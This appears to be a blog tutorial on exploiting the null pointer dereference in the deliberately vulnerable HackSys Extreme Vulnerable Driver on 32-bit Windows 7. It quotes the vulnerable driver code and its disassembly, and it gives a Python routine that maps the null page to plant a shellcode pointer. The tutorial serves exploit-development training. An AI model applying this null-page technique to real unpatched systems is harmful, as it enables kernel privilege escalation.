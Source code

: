 ```yaml
---
layout: post
title:  "Windows Kernel Exploitation: Null Pointer Derefrence"
date:   2018-08-16 07:00:00
categories: windows-kernel-exploit
permalink: /archivers/Windows-Kernel-Exploitation-Null-Pointer-Derefrence
---
```

## Overview
pwn is fun.

It's interesting that we can figure out how to allocate memory which address is less than 0x1000. let's see how to do exploit null page with this magic tech.

### Environment
* Debugger OS: Win7 x64
* Debuggee OS: Win7 x86
* Debug software: Windbg, IDA

## Analysis
First check the [source code](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/NullPointerDerefrence.c).
```CNullPointerDereference = (PNULL_POINTER_DEREFERENCE)
                                  ExAllocatePoolWithTag(NonPagedPool,
                                                        sizeof(NULL_POINTER_DEREFERENCE),
                                                        (ULONG)POOL_TAG);

        if (!NullPointerDereference) {
            // Unable to allocate Pool chunk
            DbgPrint("[-] Unable to allocate Pool chunk\n");

            Status = STATUS_NO_MEMORY;
            return Status;
        }
        else {
            DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
            DbgPrint("[+] Pool Type: %s\n", STRINGIFY(NonPagedPool));
            DbgPrint("[+] Pool Size: 0x%X\n", sizeof(NULL_POINTER_DEREFERENCE));
            DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);
        }

        // Get the value from user mode
        UserValue = *(PULONG)UserBuffer;

        DbgPrint("[+] UserValue: 0x%p\n", UserValue);
        DbgPrint("[+] NullPointerDereference: 0x%p\n", NullPointerDereference);

        // Validate the magic value
        if (UserValue == MagicValue) {
            NullPointerDereference->Value = UserValue;
            NullPointerDereference->Callback = &NullPointerDereferenceObjectCallback;

            DbgPrint("[+] NullPointerDereference->Value: 0x%p\n", NullPointerDereference->Value);
            DbgPrint("[+] NullPointerDereference->Callback: 0x%p\n", NullPointerDereference->Callback);
        }
        else {
            DbgPrint("[+] Freeing NullPointerDereference Object\n");
            DbgPrint("[+] Pool Tag: %s\n", STRINGIFY(POOL_TAG));
            DbgPrint("[+] Pool Chunk: 0x%p\n", NullPointerDereference);

            // Free the allocated Pool chunk
            ExFreePoolWithTag((PVOID)NullPointerDereference, (ULONG)POOL_TAG);

            // Set to NULL to avoid dangling pointer
            NullPointerDereference = NULL;
        }

#ifdef SECURE
        // Secure Note: This is secure because the developer is checking if
        // 'NullPointerDereference' is not NULL before calling the callback function
        if (NullPointerDereference) {
            NullPointerDereference->Callback();
        }
#else
        DbgPrint("[+] Triggering Null Pointer Dereference\n");

        // Vulnerability Note: This is a vanilla Null Pointer Dereference vulnerability
        // because the developer is not validating if 'NullPointerDereference' is NULL
        // before calling the callback function
        NullPointerDereference->Callback();
```
As we can see in the source code, everything is clearly explained in the source. The `UserValue` is compared with the value `0xBAD0B0B0` and if it fails the `NullPointerDereference` value is set to NULL and then the value `NullPointerDereference` is not validated whether it’s NULL before calling the callback function. 

let's see it in disassemble language.
```C
                xor     esi, esi ; the esi reg is NullPointerDerefrence pointer
                push    offset aTriggeringNull ; "[+] Triggering Null Pointer Dereference"...
                call    _DbgPrint
                pop     ecx
                call    dword ptr [esi+4]
```
Because the `NullPointerDereference` is set to NULL, so the call `call    dword ptr [esi+4]` turn into `call [0x4]`, this is the vuln.

## Explotation
As mentioned before, Win7 OS doesn't have SMEP or SMAP, we can execute our shellcode directly. What we need to do is that allocate memory less than 0x1000.  
### How to allocate memory less than 0x1000
Functions such as `VirtualAlloc` or `VirtualAllocEx` won’t allow us to allocate memory at a starting address less than 0x00001000. Thanks for researchers' researching and sharing. There is a NTAPI undocumented function `NtAllocateVirtualMemory`. We can use this function to map a null page in user space and after that, we can write the pointer to shellcode at address 0x00000004.

Below is the example code to allocate value in 0x4:
```PYTHON
def Allocate_NULL_page(shellcode_address):
    
    
    null_status = NtAllocateVirtualMemory(GetCurrentProcess(), byref(c_void_p(0x1)), 0, byref(c_ulong(0x100)), 0x3000,  0x40)
    if null_status != 0x0:
            print "\t[+] Failed to allocate NULL page..."
            sys.exit(-1)
    else:
            print "\t[+] NULL Page Allocated"

    ptr=c_void_p(0x4)
    ptr.contents=c_int(shellcode_address)
    
    memmove(c_void_p(0x4), byref(c_ulong(shellcode_address)), 4)
```
 

### Code
As we can allocate memory in null page, the exp is very simple. First allocate memory for shellcode and then put the address to 0x4. pwned!
The full exp code is in my [Github](https://github.com/ray-cp/windows-kernel-exploit/tree/master/HEVD/NULL_Pointer_Dereference/Win7_x86)
## Conclude
So much things need to learn and thanks for researchers' sharing.
## Link
1. [HackSys Extreme Vulnerable Driver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)
2. [Windows Kernel Exploitation Tutorial Part 5: NULL Pointer Dereference)](https://rootkits.xyz/blog/2018/01/kernel-null-pointer-dereference/)
3. [Windows Kernel Exploitation – Null Pointer Dereference](https://osandamalith.com/2017/06/22/windows-kernel-exploitation-null-pointer-dereference/)
4. [Part 12: Kernel Exploitation -> Null Pointer Dereference](https://www.fuzzysecurity.com/tutorials/expDev/16.html)